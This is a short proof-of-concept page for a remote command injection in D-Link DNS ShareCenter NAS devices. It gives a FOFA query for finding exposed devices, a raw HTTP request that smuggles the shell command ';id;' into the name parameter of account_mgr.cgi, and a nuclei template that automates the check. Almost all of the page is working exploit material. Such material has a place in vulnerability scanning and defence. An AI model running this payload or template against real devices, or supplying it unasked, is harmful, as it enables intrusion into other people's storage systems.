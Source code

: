 # fofa

```plain
app="D_Link-DNS-ShareCenter"
```

# POC

```http
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```



# nuclei

```yaml
id: D-Link-NAS-account_mg-rce

info:
    name: D-Link-NAS account_mg rce
    author: zxf
    severity: high

http:
  - raw:
    - |
      GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
      Host: {{Hostname}}
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
      Accept-Encoding: gzip, deflate, br
      Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
      Connection: close

    matchers:
      - type: word
        words:
          - "uid="
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999546655-c43b1386-74ed-474f-9ddf-9d73638993b4.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999579216-e4cd2886-7cd7-4220-b10b-c5dffed1d3fd.png)